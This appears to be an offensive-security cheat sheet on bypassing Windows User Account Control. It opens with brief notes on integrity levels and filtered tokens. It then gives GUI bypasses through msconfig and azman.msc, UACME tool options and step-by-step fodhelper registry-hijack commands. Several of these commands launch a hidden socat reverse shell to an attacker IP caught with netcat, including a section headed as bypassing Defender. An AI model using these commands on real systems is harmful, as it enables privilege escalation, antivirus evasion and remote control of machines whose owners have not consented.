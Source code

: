 # INTEGRITY LEVELS (IL)

### Low = Generally used for interaction with the Internet. Has very limited permissions.

### Medium = Assigned to standard users and Administrators' filtered tokens.

### High = Used by Administrators' elevated tokens if UAC is disabled. All administrators will always use a high IL token.

### System = Reserved for system use.

# FILTERED TOKENS

### Non-administrators: Will receive a single access token when logged in, which will be used for all tasks performed by the user. This token has Medium IL.

### Administrators: Filtered token = A token with Administrator privileges stripped, used for regular operations. This token has Medium IL.

### Elevated Token = Full admin privileges. High IL.

# GUI BASED UAC BYPASS

## msconfig

#### 1) Run 

#### 2) msconfig

#### 3) System Configutation -> Tools

#### 4) Launch cmd.exe

## azman.msc

#### 1) Run

#### 2) azman.msc

#### 3) Authorization Manager -> Help -> Help Topics

#### 4) Right-click -> View Source (Spawns notepad process)

#### 5) File -> Open

#### 6) All files

#### 7) Search cmd.exe

#### 8) Open cmd.exe

# AUTOMATION

### Tool: UACMEAkagi64.exe

#### options: 

#### 33 = fodhelper.exe

#### 34 Disk Cleanup scheduled Task

#### 70 fodhelper.exe using CurVer registry key

# AUTO-ELEVATE

### Verification

#### sigcheck64.exe -m c:\path\to\file.exe

# FODHELPER

#### 1) whoami

#### 2) net user USER | find "Local Group"

#### 3) whoami /groups | find "Label"

#### 4) set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

#### 5) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 6) reg add %REG_KEY% /v "DelegateExecute" /d "" /f

#### 7) reg add %REG_KEY% /d %CMD% /f

#### 8) Attacker: nc -lvp PORT 

#### 9) fodhelper.exe

#### 10) red delete HKCU\Software\Classes\ms-settings\ /f (Cleanup)

# BYPASS DEFENDER WITH FODHELPER

#### 1) set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

#### 2) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 3) reg add %REG_KEY% /v "DelegateExecute" /d "" /f

#### 4) reg add %REG_KEY% /d %CMD% /f & fodhelper.exe

#### 5) nc -lvnp PORT 

# IMPROVED FODHELPER EXPLOIT

#### 1) set CMD="powershell -windowstyle hidden c:\tools\socat.exe TCP:ATTACK_IP:PORT EXEC:cmd.exe,pipes"

#### 2) reg add "HKCU\Software\Classes\.jim\Shell\Open\command" /d %CMD% /f

#### 3) reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".jim" /f

#### 4) fodhelper.exe

#### 5) nc -lvp PORT

#### 6) reg delete "HKCU\Software\Classes\.jim\" /f (Cleanup)

#### reg delete "HKCU\Software\Classes\ms-settings" /f (Cleanup)

